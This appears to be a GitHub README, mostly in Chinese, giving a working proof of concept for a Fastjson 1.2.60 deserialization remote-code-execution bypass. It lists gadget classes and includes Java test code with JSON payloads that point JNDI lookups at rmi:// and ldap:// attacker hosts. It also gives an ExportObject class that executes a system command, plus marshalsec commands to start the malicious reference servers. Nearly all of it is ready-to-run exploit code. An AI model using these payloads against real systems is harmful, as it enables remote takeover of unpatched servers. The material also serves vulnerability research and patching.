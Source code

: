 # Fastjson <= 1.2.60 反序列化漏洞 

## By Pass Auto Block List with 2 Gadgets (JNDIConfiguration、OracleManagedConnectionFactory )

![](./Fastjson-1.2.60-RCE.gif)



## Gadgets
```
经过测试，命中的4个文件都是可以利用的。

不过其中HikariConfig类就是前文提到的类，在最新版本被加入黑名单，JNDIConnectionPool类在42版本前就被加入黑名单了。

另外的两个类JNDIConfiguration和 OracleManagedConnectionFactory都可以构造出攻击poc，且尚未被加入黑名单。

source/commons-configuration-1.9/org/apache/commons/configuration/JNDIConfiguration.java containsKey

source/commons-configuration-1.9/org/apache/commons/configuration/JNDIConfiguration.java getProperty

source/HikariCP-3.3.1/com/zaxxer/hikari/HikariConfig.java getObjectOrPerformJndiLookup

source/ojdbc14-10.2.0.2/oracle/jdbc/connector/OracleManagedConnectionFactory.java setupXADataSource

source/xalan-2.7.2/org/apache/xalan/lib/sql/JNDIConnectionPool.java findDatasource
```

### FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){

        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 ="{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"rmi://10.10.20.166:1099/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}
```

### ExportObject.java
```
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class ExportObject {
    public ExportObject() throws Exception {
        Process proc = Runtime.getRuntime().exec("calc");
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();

        String line;
        while((line = br.readLine()) != null) {
            sb.append(line).append("\n");
        }

        String result = sb.toString();
        Exception e = new Exception(result);
        throw e;
    }

    public static void main(String[] args) throws Exception {
    }
}

```

## RMI RefServer
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

## LDAP RefServer
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`
![](./1.2.60.png)

## 参考链接：

https://mmbiz.qpic.cn/mmbiz_png/f2yQgjGph7MnkCl1YEUxd6Q8mDjQkicxL7JuOFjxlOjWwQtWyYQzjE5yYkSuJVwic9qdnmRYXTtEJqxM3Efc1lYw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1

https://www.freebuf.com/articles/web/213327.html

https://mp.weixin.qq.com/s?__biz=MzUyNTk1NDQ3Ng==&mid=2247484350&idx=1&sn=de51dd5707a2ff5464423407195e9177&scene=21#wechat_redirect

